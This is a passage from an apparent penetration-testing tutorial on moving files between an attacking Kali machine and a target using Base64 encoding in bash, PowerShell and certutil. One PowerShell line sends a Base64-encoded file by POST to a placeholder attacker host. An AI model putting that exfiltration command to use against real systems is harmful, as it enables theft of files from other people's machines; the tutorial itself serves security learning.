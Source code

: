 Also, in this post and the examples I suppose that your attacking machine is a Debian-based Linux distribution, like Kali-Linux. In other distributions/operating systems these examples might not work or explicit configurations are required for them.


## Base64


One of the simpliest ways to transfer files is to use encodings. The `Base64` encoding can only produce symbols, which can be copied and pasted like a text strings and then used to decode the real file.


### Base64 Command


Encode files to Base64:

```bash
base64 <source-path> > <dest-path>
```

Decode a Base64-encoded file and save:

```bash
echo <base64> | base64 -d -w 0 > <dest-path>
```


### PowerShell Base64


PowerShell includes a `ToBase64String` method to convert bytes to base64. It can be combined with `Get-Content` cmdlet to convert file to Base64: 

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<source-path>' -Encoding Byte))
```

Then, we can output the Base64 string to the terminal or make a POST-request to HTTP server with `Invoke-Webrequest`:

```powershell
$b64
iwr "http://<attacker>/" -Method POST -Body $b64
```

Base64 to file with `FromBase64String` method:

```powershell
Add-Content -Encoding UTF8 "<filename>" "<base64>" -NoNewLine
$data = Get-Content -Raw "<filename>"
[IO.File]::WriteAllBytes("<dest-path>", [Convert]::FromBase64String($data))
```


### Certutil Base64


Windows certutil has options to encode and decode files with Base64. The tool is native in Windows and we can execute it to transfer files.
